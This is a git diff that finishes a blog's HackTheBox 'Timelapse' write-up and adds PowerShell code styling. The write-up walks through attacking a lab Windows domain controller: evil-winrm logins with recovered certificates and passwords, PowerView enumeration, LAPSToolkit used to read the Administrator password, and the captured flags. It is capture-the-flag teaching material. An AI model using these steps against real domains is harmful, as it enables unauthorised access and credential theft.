

Add the Timelapse box

diff --git a/sass/markdown/code.scss b/sass/markdown/code.scss
@@ -56,6 +56,10 @@
         background-color: #cccbc8;
     }
 
+    &[data-lang='ps1'] {
+        background-color: #4d648d;
+    }
+
     &[data-lang='py'] {
         background-color: #00668c;
     }

diff --git a/static/js/code-indicator.js b/static/js/code-indicator.js
@@ -35,6 +35,7 @@ const languageMapping = {
     'php': 'PHP',
     'pl': 'PERL',
     'plain': 'PLAINTEXT',
+    'ps1': 'POWERSHELL',
     'py': 'PYTHON',
     'sh': 'SHELL',
     'sql': 'SQL',

diff --git a/content/htb-write-ups/boxes/timelapse/index.md b/content/htb-write-ups/boxes/timelapse/index.md
@@ -1,6 +1,6 @@
 +++
 title = "Timelapse"
-date = "2024-01-01"
+date = "2024-01-06"
 description = "This is an easy Windows box."
 [extra]
 cover = "cover.png"
@@ -268,7 +268,7 @@ It found a password: `supremelegacy`!
 Let's go back to our enumeration of `winrm_backup.zip`. This time, we should be able to unzip it!
 
 ```sh
-❯ unzip /workspace/smb/Dev/winrm_backup.zip -d /workspace/
+❯ unzip /workspace/smb/Dev/winrm_backup.zip -d /workspace
 ```
 
 ```
@@ -361,12 +361,11 @@ Okay, so now we have a decrypted private key and a certificate.
 Let's use the private key and the certificate we obtained to connect to Timelapse over WinRM!
 
 ```sh
-❯ evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
+❯ evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt -S
 ```
 
 ```
 <SNIP>
-Enter PEM pass phrase:
 *Evil-WinRM* PS C:\Users\legacyy\Documents>
 ```
 
@@ -544,9 +543,9 @@ Users     TIMELAPSE\Domain Users S-1-5-21-671920749-559770252-3318990721-513
 
 It looks like there's only domain users.
 
-## Domain users
+## Global users
 
-Let's get the domain users then.
+Let's get the domain users then (still using `PowerView`).
 
 ```ps1
 *Evil-WinRM* PS C:\Users\legacyy\Documents> Get-DomainUser | Select-Object Name, Description, ObjectSID | Format-Table
@@ -617,6 +616,72 @@ DnsAdmins                               DNS Administrators Group
 
 Nothing extraordinary for a DC.
 
+## Global groups
+
+Let's also get the global groups with `PowerView`.
+
+```ps1
+*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-DomainGroup | Select-Object SamAccountName, Description, ObjectSID | Format-Table
+```
+
+```
+samaccountname                      description
+--------------                      -----------
+Administrators                      Administrators have complete and unrestricted access to the computer/domain
+Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
+Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
+Print Operators                     Members can administer printers installed on domain controllers
+Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
+Replicator                          Supports file replication in a domain
+Remote Desktop Users                Members in this group are granted the right to logon remotely
+Network Configuration Operators      Members in this group can have some administrative privileges to manage configuration of networking features
+Performance Monitor Users           Members of this group can access performance counter data locally and remotely
+Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
+Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
+IIS_IUSRS                           Built-in group used by Internet Information Services.
+Cryptographic Operators             Members are authorized to perform cryptographic operations.
+Event Log Readers                   Members of this group can read event logs from local machine
+Certificate Service DCOM Access      Members of this group are allowed to connect to Certification Authorities in the enterprise
+RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing deployments, these servers are typically deployed in an edge network. This gr...
+RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This group needs to be populated on servers running RD Connection Broker. RD Sessio...
+RDS Management Servers              Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be populated on all servers in a Remote Desktop Services deployment. The servers ...
+Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
+Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
+Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
+Storage Replica Administrators      Members of this group have complete and unrestricted access to all features of Storage Replica.
+Domain Computers                    All workstations and servers joined to the domain
+Domain Controllers                  All domain controllers in the domain
+Schema Admins                       Designated administrators of the schema
+Enterprise Admins                   Designated administrators of the enterprise
+Cert Publishers                     Members of this group are permitted to publish certificates to the directory
+Domain Admins                       Designated administrators of the domain
+Domain Users                        All domain users
+Domain Guests                       All domain guests
+Group Policy Creator Owners         Members in this group can modify group policy for the domain
+RAS and IAS Servers                 Servers in this group can access remote access properties of users
+Server Operators                    Members can administer domain servers
+Account Operators                   Members can administer domain user and group accounts
+Pre-Windows 2000 Compatible Access  A backward compatibility group which allows read access on all users and groups in the domain
+Incoming Forest Trust Builders      Members of this group can create incoming, one-way trusts to this forest
+Windows Authorization Access Group  Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribute on User objects
+Terminal Server License Servers     Members of this group can update user accounts in Active Directory with information about license issuance, for the purpose of tracking and reporting TS Per User CAL usage
+Allowed RODC Password Replicatio... Members in this group can have their passwords replicated to all read-only domain controllers in the domain
+Denied RODC Password Replication... Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain
+Read-only Domain Controllers        Members of this group are Read-Only Domain Controllers in the domain
+Enterprise Read-only Domain Cont... Members of this group are Read-Only Domain Controllers in the enterprise
+Cloneable Domain Controllers        Members of this group that are domain controllers may be cloned.
+Protected Users                     Members of this group are afforded additional protections against authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=298939 for more information.
+Key Admins                          Members of this group can perform administrative actions on key objects within the domain.
+Enterprise Key Admins               Members of this group can perform administrative actions on key objects within the forest.
+DnsAdmins                           DNS Administrators Group
+DnsUpdateProxy                      DNS clients who are permitted to perform dynamic updates on behalf of some other clients (such as DHCP servers).
+LAPS_Readers
+Development
+HelpDesk
+```
+
+The `LAPS_Readers` is not a default group for a DC... Let's keep that in mind.
+
 ## User account information
 
 Let's gather more information about us.
@@ -660,11 +725,11 @@ We don't belong to interesting groups.
 If we check our home folder, we find the user flag on our Desktop. Let's retrieve its content.
 
 ```ps1
-*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\Desktop\user.txt
+*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:USERPROFILE\Desktop\user.txt
 ```
 
 ```
-TODO
+09b4f18e47b6e817fb28617150589d73
 ```
 
 Apart from this file, there's nothing out of the ordinary.
@@ -695,3 +760,128 @@ It looks like our user connected to this machine as `svc_deploy` using the passw
 # Lateral movement (WinRM)
 
 Let's connect to Timelapse as `svc_deploy` using WinRM.
+
+```sh
+❯ evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
+```
+
+```
+<SNIP>
+Enter PEM pass phrase:
+*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
+```
+
+# Local enumeration
+
+## User account information
+
+Let's gather more information about us.
+
+```ps1
+*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
+```
+
+```
+User name                    svc_deploy
+Full Name                    svc_deploy
+Comment
+User's comment
+Country/region code          000 (System Default)
+Account active               Yes
+Account expires              Never
+
+Password last set            10/25/2021 11:12:37 AM
+Password expires             Never
+Password changeable          10/26/2021 11:12:37 AM
+Password required            Yes
+User may change password     Yes
+
+Workstations allowed         All
+Logon script
+User profile
+Home directory
+Last logon                   1/6/2024 2:26:33 PM
+
+Logon hours allowed          All
+
+Local Group Memberships      *Remote Management Use
+Global Group memberships     *LAPS_Readers         *Domain Users
+<SNIP>
+```
+
+We belong to the `LAPS_Readers` group... This likely implies that we should be able to read the LAPS password.
+
+> Microsoft LAPS is a product that manages local administrator passwords and shares permissions, storing them in Active Directory (AD). LAPS automatically randomizes and updates passwords on a routine basis, so that no two users ever have the same passwords and that passwords don’t become stale and more vulnerable to hacking.
+>
+> [Varonis](https://www.varonis.com/blog/microsoft-laps)
+
+Okay, so maybe we can retrieve the password for the local `Administrator` account?
+
+## LAPS
+
+Let's check which groups can read the LAPS passwords, this time using `LAPSToolkit`.
+
+```ps1
+*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Find-LAPSDelegatedGroups
+```
+
+```
+OrgUnit                                    Delegated Groups
+-------                                    ----------------
+OU=Domain Controllers,DC=timelapse,DC=htb  TIMELAPSE\LAPS_Readers
+OU=Servers,DC=timelapse,DC=htb             TIMELAPSE\LAPS_Readers
+OU=Database,OU=Servers,DC=timelapse,DC=htb TIMELAPSE\LAPS_Readers
+OU=Web,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
+OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
+```
+
+So we should be able to read these passwords! Let's do it.
+
+```ps1
+*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSComputers
+```
+
+```
+ComputerName       Password                 Expiration
+------------       --------                 ----------
+dc01.timelapse.htb oXXp1M7Tw0!9])Cr@Pk3fUHc 01/11/2024 15:22:31
+```
+
+Alright, so `Administrator`:`oXXp1M7Tw0!9])Cr@Pk3fUHc` should be valid credentials!
+
+# Privilege escalation (WinRM)
+
+Let's use these credentials to connect to Timelapse over WinRM.
+
+```sh
+❯ evil-winrm -i 10.10.11.152 -u Administrator -p 'oXXp1M7Tw0!9])Cr@Pk3fUHc' -S
+```
+
+```
+<SNIP>
+*Evil-WinRM* PS C:\Users\Administrator\Documents>
+```
+
+If we run `whoami`, we can confirm that we are `Administrator`!
+
+# Local enumeration
+
+## Home folder
+
+The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it on our Desktop!
+
+```ps1
+*Evil-WinRM* PS C:\Users\Administrator\Documents> type $env:USERPROFILE\Desktop\root.txt
+```
+
+```
+efe365e4737611f22aae6fba4a9aab72
+```
+
+# Afterwords
+
+![Success](success.png)
+
+That's it for this box! I found it really interesting, as I discovered a few file extensions and their use cases. It was fairly easy overall, the foothold was straightforward to obtain, and the privilege escalation only required decent enumeration.
+
+Thanks for reading!
